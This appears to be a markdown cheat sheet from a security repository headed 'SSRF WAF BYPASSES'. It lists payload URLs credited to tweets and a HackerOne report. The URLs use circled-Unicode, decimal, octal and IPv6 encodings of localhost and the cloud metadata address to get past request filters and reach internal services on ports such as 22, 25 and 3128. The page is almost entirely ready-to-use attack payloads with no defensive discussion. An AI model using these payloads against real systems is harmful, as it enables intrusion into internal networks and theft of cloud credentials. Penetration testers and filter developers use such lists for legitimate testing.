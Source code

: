 ## SSRF WAF BYPASSES 
*[tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)*

![SSRF](Images/ssrf.png)

```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```
------------------------------------------------------------------------------------
*[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)*
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```

------------------------------------------------------------------------------------
*[Report #736867](https://hackerone.com/reports/736867) by [foobar7](https://twitter.com/foobar0x7)*  
```
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
```
